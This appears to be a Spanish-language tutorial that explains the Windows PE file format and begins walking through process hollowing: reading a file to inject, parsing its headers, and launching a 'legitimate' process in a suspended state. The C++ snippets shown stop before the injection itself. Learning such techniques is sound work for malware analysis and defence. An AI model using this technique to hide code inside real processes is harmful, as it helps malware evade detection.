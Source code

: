 # Antes que nada , debemos saber lo siguiente

1. **Trabajaremos con archivos PE de Windows**
2. **Hablaremos de MS-DOS y DOS**:
   - MS-DOS, o Microsoft Disk Operating System, fue un sistema operativo desarrollado por Microsoft para computadoras personales ([Wikipedia](https://es.wikipedia.org/wiki/MS-DOS))
3. **Hablaremos de Arquitecturas de 32 y 64 bits**
_________________________________________________________________________________________________________

Portable Executable (PE) es un formato de archivo para archivos ejecutables, de código objeto, bibliotecas de enlace dinámico (DLL), archivos de fuentes FON​ y otros usados en versiones de 32 bit y 64 bit del sistema operativo Microsoft Windows segun Wikipedia.

Estos archivos contienen una estructura que deberemos entender para esta tecnica:

![image](https://github.com/user-attachments/assets/6bff7db8-1895-432d-8915-8d0be11a8608)

Solo mencionaremos las partes que son necesarias

## Dos Header
Este encabezado es una estructura de 64 bits que existe al principio de todos los PE Files, este no es importante en sistemas Windows modernos pero se sigue incluyendo por razones de compatibilidad con versiones anteriores.

Esta cabecera convierte el archivo en un ejecutable MS-DOS, de modo que cuando se carga en MS-DOS se ejecuta el stub DOS en lugar del programa real.

Sin esta cabecera, si se intenta cargar el ejecutable en MS-DOS no se cargará y sólo producirá un error genérico.

### Estructura
![image](https://github.com/user-attachments/assets/4eb708c2-d37d-4e26-979a-bc24c1c5172c)

Esta estructura es importante para el cargador PE en MS-DOS, sin embargo sólo unos pocos miembros de la misma son importantes para el cargador PE en sistemas Windows, por lo que no vamos a ver todo , sólo los miembros importantes de la estructura.

* e_magic: Es el primer miembro de la Cabecera DOS, es un WORD por lo que ocupa 2 bytes, se le suele llamar número mágico. Tiene un valor fijo de 0x5A4D o MZ en ASCII, y sirve como firma que marca el fichero como ejecutable MS-DOS.
* e_lfanew: Este es el último miembro de la estructura de cabecera del DOS, se encuentra en el offset 0x3C dentro de la cabecera del DOS y contiene un offset al inicio de las cabeceras NT. Este miembro es importante para el cargador PE en sistemas Windows porque le dice al cargador dónde buscar la cabecera del archivo.

![image](https://github.com/user-attachments/assets/669dcc0d-c8ef-4114-87a0-ea86c9c902b3)

Como puedes ver, el primer miembro de la cabecera es el número mágico con el valor fijo del que hablamos que era 5A4D.

El último miembro de la cabecera (en el offset 0x3C) recibe el nombre de «File address of new exe header», tiene el valor 100, podemos seguir hasta ese offset y encontraremos el inicio de las cabeceras NT como era de esperar:

## Dos Stub
El stub de DOS es un programa de MS-DOS que imprime un mensaje de error diciendo que el ejecutable no es compatible con DOS y luego sale.

Esto es lo que se ejecuta cuando el programa se carga en MS-DOS, el mensaje de error por defecto es «Este programa no puede ejecutarse en modo DOS», sin embargo este mensaje puede ser cambiado por el usuario durante el tiempo de compilación.

Eso es todo lo que necesitamos saber sobre el stub DOS, realmente no nos importa, pero puede hacer mucho mas.

![image](https://github.com/user-attachments/assets/d150b7bc-2e5c-4962-8b66-c38b3404cc00)

## NT Header
Los NT-Headers son una parte importante de los ejecutables portables. Contienen una gran cantidad de información sobre el PE File.

Existen dos versiones de la estructura dependiendo de la arquitectura (32 bits o 64 bits). En cualquier caso, la estructura tiene tres elementos: una firma, un encabezado de archivo (IMAGE_FILE_HEADER) y un encabezado opcional (IMAGE_OPTIONAL_HEADER).

Contienen muchisima informacion relevante para otras areas, pero no para esta, solo nos centraremos en algunas partes del encabezado opcional.

Precisamente en el Entrypoint y ImageBase :
   - Entrypoint: Muy basicamente es la dirección de memoria donde comienza la ejecución del código cuando se inicia un programa
   - ImageBase: Es la dirección de memoria virtual donde se carga un archivo ejecutable cuando se ejecuta

_________________________________________________________________________________________________________

## 1. Obtenemos los bytes del archivo a inyectar y los guardamos en un buffer

``` cpp
    HANDLE sourceFile = CreateFileA(sourceProcess.c_str(), GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    if (sourceFile == INVALID_HANDLE_VALUE) {
        ErrorExit("No se pudo abrir el archivo de origen");
    }

    DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
    LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), 0, sourceFileSize);
```

Donde usamos [CreateFileA](https://learn.microsoft.com/es-es/windows/win32/api/fileapi/nf-fileapi-createfilea) para abrir un [Handle](https://es.wikipedia.org/wiki/Handle) al archivo.

Luego deberemos obtener su peso utilizando la funcion [GetFileSize](https://learn.microsoft.com/es-es/windows/win32/api/fileapi/nf-fileapi-getfilesize)

Por ultimo, asignamos memoria utilizando [HeapAlloc](https://learn.microsoft.com/es-es/windows/win32/api/heapapi/nf-heapapi-heapalloc) para guardar los bytes del archivo

## 2. Obtener los encabezados del archivo

``` cpp
    PIMAGE_DOS_HEADER sourceImageDOSHeader = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
    PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)sourceFileBytesBuffer + sourceImageDOSHeader->e_lfanew);
```

Donde obtendremos el Entrypoint y el Imagebase , necesarios para la ejecucion del archivo

## 3. Crear proceso y iniciarlo en estado suspendido

``` cpp
    STARTUPINFOA startupInfo;                  // Guardaremos el StartupInfo del proceso
    PROCESS_INFORMATION processInfo;           // Guardaremos el ProcessInformation del proceso
```

Se inicializan las estructuras STARTUPINFOA y PROCESS_INFORMATION rellenándolas con ceros utilizando [ZeroMemory](https://learn.microsoft.com/es-es/previous-versions/windows/desktop/legacy/aa366920(v=vs.85))
``` cpp
    ZeroMemory(&startupInfo, sizeof(startupInfo));   
    ZeroMemory(&processInfo, sizeof(processInfo));
    startupInfo.cb = sizeof(startupInfo);
```

Utilizamos [CreateProcessA](https://learn.microsoft.com/es-es/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) para iniciar nuestro proceso en estado SUSPENDIDO

Es necesario que ejecutemos el proceso en estado suspendido, esto sigifica que proceso se inicia pero no ejecuta código

``` cpp
    if (!CreateProcessA(
        targetProcess.c_str(),    // Nombre del proceso a crear
        NULL,                      // Parámetros de línea de comandos
        NULL,                      // Atributos de seguridad del proceso
        NULL,                      // Atributos de seguridad del hilo
        FALSE,                     // Herencia de handles
        CREATE_SUSPENDED,          // Flags de creación - SUSPENDIDO
        NULL,                      // Entorno del proceso
        NULL,                      // Directorio actual
        &startupInfo,              // Información de inicio
        &processInfo               // Información del proceso
    )) {
        ErrorExit("No se pudo crear el proceso legítimo");
    }

```
